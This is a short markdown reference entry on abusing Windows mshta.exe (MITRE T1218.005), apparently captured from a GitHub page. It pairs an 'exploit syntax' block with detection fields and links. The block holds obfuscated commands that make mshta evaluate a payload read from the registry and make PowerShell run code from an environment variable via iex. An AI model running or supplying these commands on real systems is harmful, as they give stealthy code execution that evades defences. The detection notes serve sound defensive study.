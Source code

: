 # [MSHTA.exe](https://attack.mitre.org/techniques/T1218/005/)

## Exploit Syntax:[incomplete] 


1. Execute the following commands: 

```powershell
sharpps "c:\windows\system32\mshta.exe" javascript:bz0pbzykh="qoethfr1";jo9=new%20activexobject("wscript.shell"); tkk4qffrj="wrqxzpuvp";zv0v5w=jo9.regread("hklm\\software\\wow6432node\\88b21b0b\\7f490d53");v9tjbmpoy="nwzv9xiv";eval(zv0v5w);wqfccxdq4="u";


sharpps "c:\windows\syswow64\windowspowershell\v1.0\powershell.exe" iex $env:veckxeg

```


## Detection Technique

* Investigate any instances of mshta.exe, if it is common, investigate mshta.exe interacting with the compromised machine itself.
    * process.name: mshta.exe
    * Network Connection: Outbound
    * Event.Action: Process Create
    * Event.Type: start, process start
    * Winlog.task: File Creation


## Resources 
* https://redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
* https://lolbas-project.github.io/lolbas/Binaries/Mshta/
